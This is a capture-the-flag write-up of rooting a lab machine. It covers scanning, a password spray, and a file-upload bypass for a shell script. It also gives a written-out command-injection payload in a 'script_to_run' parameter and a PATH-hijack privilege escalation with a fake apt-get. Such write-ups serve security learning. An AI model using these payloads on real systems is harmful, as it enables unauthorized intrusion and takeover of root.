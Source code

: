 <div style="display:block;text-align:middle"><img align="middle" src="https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3e30ac37-cb08-4ac9-89d9-73271b6ae425%2Fposter.jpg?id=c0d21156-5af6-4626-8d7d-770a731f728f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1250&userId=&cache=v2" border="0" style="width:450px;">

  
It was a boot2root CTF competition Conducted By IIT Bhubaneswar .
#### Machine IP :
```http
191.101.3.104
```
### Nmap Scan
```sh
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 50
53/tcp   open   domain  syn-ack ttl 56
80/tcp   open   http    syn-ack ttl 59
443/tcp  open   https   syn-ack ttl 49
1075/tcp closed rdrmshc reset ttl 43
```
so i first tried visiting the port 80

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fec9f0d5e-cd44-4edc-b53a-b82fa7816b20%2F80.png?id=966259b2-8eca-45f1-a7d3-cc941d0529d2&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
 
it was a basic apache2 homepage , so i skipped
head on to port 443 , there i found this interesting page :

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F173dd7cd-91f6-4aa8-b484-12a1efd16aca%2F443.png?id=afd219ea-4d74-4281-a82d-8b96b830b22f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
this looked interesting to me so i fuzzed it & got some endpoints :

```sh
302      GET        1l        4w       23c http://191.101.3.104:443/logout => /
200      GET       29l      120w     1707c http://191.101.3.104:443/
200      GET       51l      122w     1870c http://191.101.3.104:443/maintenance
200      GET       51l      122w     1870c http://191.101.3.104:443/Maintenance
302      GET        1l        4w       23c http://191.101.3.104:443/Logout => /
200      GET       81l      143w     2641c http://191.101.3.104:443/complaints
```
  
`maintenance` & `complaints` endpoints looks very interesting so i visited both & it looked like this :

Maintenance page :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F53b66e65-c7aa-4e06-9bb8-d28f662171d3%2Fmain-login.png?id=bb7a287d-a1ac-4360-b5ee-ce62d23f9731&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1150&userId=&cache=v2)
  
maintenance page had a login portal i tried password spraying attack on it & it got cracked in seconds
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa5831c61-84af-4e34-b4c7-59ceefe2a508%2Fpassword-spraying.png?id=8186e9f8-54d0-4224-b38c-ef5fea73d8c6&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
so `admin:password1` were the creds for the login page . i successfully logged in to the maintenance page

after loggin in :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6362dc41-51e8-4491-bad3-152548143d4b%2Fmaintenance.png?id=1b2d9c4e-70e5-490a-b882-051b3e2ff9b1&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
 maintenance page had 2 buttons called `Free-up storage` & `Cleanup-cache`
  
 the request for these 2 buttons were :
  
 ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6d195405-b6a2-4d24-b42e-a3ccbda91ab4%2Fmaitenance-request.png?id=f1e1d9c7-4abb-45b3-a381-9382d027d3c0&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1630&userId=&cache=v2)
  
 so it gave some idea that i can run some code execution from here
  
  Complaint Page :
  
  ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F7e2dcb5c-5db2-4ff5-9a79-b09e461cedc4%2Fcomplaints.png?id=9a20ceca-d375-445a-9977-2dde2113bc77&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
when i checked the other endpoint called complaints it had file upload vulnerability
i tried uploading reverse-shell.php but i noticed its using `nodejs` so php rev shell wont work , i took my teammate Raj's help to figure out the shell   part 
so i tried with bash shell , one more thing was there that user can only upload images so i had to do extension bypass using burp :
 
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa914d3b8-0f21-415f-b121-db1e2b8a63dc%2Ffoothold.png?id=a1572433-0fab-4239-8b8a-a8c9214b1ff8&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
here i used bind shell because due to some reasons my rev shell wasnt working & used ports over 1024 as they are reserved ports & they need sudo perm in linux if u want to listen/emit on them , so basically i changed the extension from `foothold.sh.jpg` to `foothold.sh` here & it bypassed the filter & got uploaded as a sh script . the path it got uploaded to was ./images  

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9ccb93db-152d-44b5-93b3-dc212a69c8a0%2Fuploads-dir.png?id=e220c5a2-64ed-4d1b-b0b3-bffe03a98475&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1060&userId=&cache=v2)
  
so my shell got uploaded but now i need to trigger it so i went back to maintenance page where i had a param which was executing. i knew the path now so i used && with url encoded , typed bash to invoke my script `[foothold.sh](http://foothold.sh)` 

so the actual payload was :
```sh
script_to_run=Cleanup.out %26%26 bash ./images/foothold.sh %3c%3c
```

& we got shell yay :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa2b3516a-20e2-4738-92b4-fbfda34ca98f%2Ffooldhold2.png?id=cc0fdffd-dc73-4158-a82e-dcc6106b1c29&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)

## PrivEsc

we are logged in as guest user now we need to be root
so i did manual enumeration of privesc 
i found out `/home/node/webapp/scripts/cleanup.sh` is `suid` bin & later on playing with that folder i found out its leading to path injection , where `apt-get` binary is called by the cleanup.sh program which was ran by root . it gave me the idea of path Injection 

#### Path Injection to root
```sh
step 1 : echo '#!/bin/bash' > /tmp/apt-get
step 2 : echo '/bin/bash -p' >> /tmp/apt-get
step 3 : chmod +x /tmp/apt-get
step 4 : export PATH=/tmp:$PATH
step 5 : cd /home/node/webapp/scripts/
step 6 : ./Cleanup.out

Boom Rooted
```
& We got root :)

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc1cb6a30-a0d2-4a77-8bbb-53bed1161483%2Froot-privesc.png?id=ffa44f9a-dcb1-4bfc-8ce6-e183fb68e5bc&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
#### P.S : Won this CTF :)
